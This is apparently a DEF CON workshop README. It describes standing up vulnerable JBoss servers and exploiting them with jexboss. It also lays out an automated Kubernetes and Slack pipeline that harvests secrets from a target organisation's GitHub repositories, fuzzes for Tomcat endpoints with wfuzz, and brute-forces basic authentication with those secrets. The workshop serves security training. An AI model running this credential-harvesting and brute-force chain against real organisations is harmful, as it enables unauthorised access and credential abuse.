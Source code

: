 # Section-4

## Stand up vulnerable and non-vulnerable JBOSS servers


## Stand up Attack Host with exploit tools
* From the `attackhost` directory, type
    * docker build -t us.gcr.io/defcon-workshop/attackhost .
    * gcloud docker -- push us.gcr.io/defcon-workshop/attackhost
* Navigate to Google Container Registry and verify the image exists.
* Start the attackhost deployment by typing - `kubectl apply -f attack-host.yaml`.


## Using Attack Host to exploit
* SSH into the attackhost container by typing - `kubectl exec -it <pod-name> bash`.
* Run `jexboss` by typing - `python jexboss.py -u <URL>` for both the vulnerable and non-vulnerable JBOSS servers.
* Notice the different output and the ease of standing up sandboxed environments for security testing.


## Destroying the environment
* Delete all the deployments by typing - `kubectl delete deployments --all`
* Delete all the pods by typing - `kubectl delete pods --all`


## Introducing Target, Attack Surface and Automated Testing Methodology
* Domain:
    * Domain points to an Apache Tomcat server.
    * Domain has a github org with members.
* We will scan all the repositories of this org and all the repositories of the org's members using `repo-supervisor`. Results will be stored in a Google BigQuery table.
* We will then run `wfuzz` to do a focussed bruteforcing for Apache Tomcat endpoints on that domain. Results will be stored in a Google BigQuery table.
* We will then use the secrets obtained from `repo-supervisor` and try to bruteforce the basic authentication mechanism of the Apache Tomcat endpoints obtained from `wfuzz`.
* If there is a match, we will get back results in Slack via an incoming webhook.
* Demo of doing all this automatically.

### Running locally
* [Running repo-supervisor and wfuzz locally and converting the results to store in BigQuery](data-converter/README.md)
* [Running wfuzz basic authentication bruteforcer combining the data from both the tools](wfuzz-basicauth-bruteforcer/README.md)

### Running on a K8S cluster
Running the tools repo-supervisor and wfuzz
* `go run scripts/main.go -project <PROJECTID> -gac <GACCREDS> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test` - This will re-create the dataset and tables.
* `kubectl create secret generic googlesecret --from-file=$(CREDS_FILEPATH)` - Create a secret with the value of the secret being the JSON credentials file downloaded above. We need this because the containers on the cluster need to authenticate to our K8S cluster to be able to create anything. We don't do this locally because our gcloud environment, by default, is already configured when we first set it up but we need it when running on a K8S cluster
* `kubectl get secrets` - Verify the secret was created
* Make sure the environment values in the `deployments/tools-bq-pod.yaml` deployment file are accurate
* `kubectl apply -f deployments/tools-bq-pod.yaml`

Running the wfuzz basic authN bruteforcer
* Make sure the environment values in the `deployments/tools-wfbrute-pod.yaml` deployment file are accurate
* `kubectl apply -f deployments/tools-wfbrute-pod.yaml`

### Cleanup
* `kubectl delete pods --all`
* Delete the BQ datasets and tables

-------------
### Sending a request from Kubebot for a target company
* Initiate a request from Slack by typing a command like `/runautomation wfuzzbasicauthbrute|<www.target.com>`
* API server receives the request
* API server drops a message in the queue to start `wfuzzbasicauthbrute` tool
* The message is picked up by a subscription worker from the queue
* Subscription worker starts 2 GoRoutines:
    * First GoRoutine starts [gitallsecrets](https://github.com/anshumanbh/git-all-secrets) with the options `-token <> -org <target> -toolName repo-supervisor -output /tmp/results/results.json`. As soon as this is finished, the results are uploaded to BigQuery in the table `reposupervisor_test` under the dataset `reposupervisords` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/)
    * Second GoRoutine starts [wfuzz](https://github.com/anshumanbh/wfuzz) with the options `-w /data/SecLists/Discovery/Web_Content/tomcat.txt --hc 404,429,400 -o csv http://<TARGET>/FUZZ/ /tmp/results/results.csv`. As soon as this is finished, the results are uploaded to BigQuery in the table `wfuzz_tomcat_test` under the dataset `wfuzzds` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/)
    * All the above jobs are performed inside Docker containers and they are destroyed once they are all completed.
* After the tools finish running above, the subscription worker starts another GoRoutine:
    * This GoRoutine starts a utility [wfuzzbasicauthbrute](https://hub.docker.com/r/abhartiya/utils_wfuzzbasicauthbrute/) with the opttions `-target <target> -slackHook <slackhook>`.
    * This utility basically fetches all the secrets obtained from the `reposupervisor_test` table and stores it in a file. It then fetches all the endpoints obtained from the table `wfuzz_tomcat_test`.
    * For each endpoint (ENDPOINT) retrieved above, the utility does a bruteforce attack against the basic authentication mechanism with all the secrets retrieved above against the URL `http://TARGET/ENDPOINT`. This is done by using the tool [wfuzz](https://github.com/xmendez/wfuzz) with the options `./wfuzz.py -w <all-the-secrets-file> -o csv --basic "admin:FUZZ" --sc 200,403 http://TARGET/ENDPOINT`
    * Finally, for each response with a `200` or `403` status, indicating that the secret worked against that endpoint, the results are sent back to Slack via the incoming Slack webhook.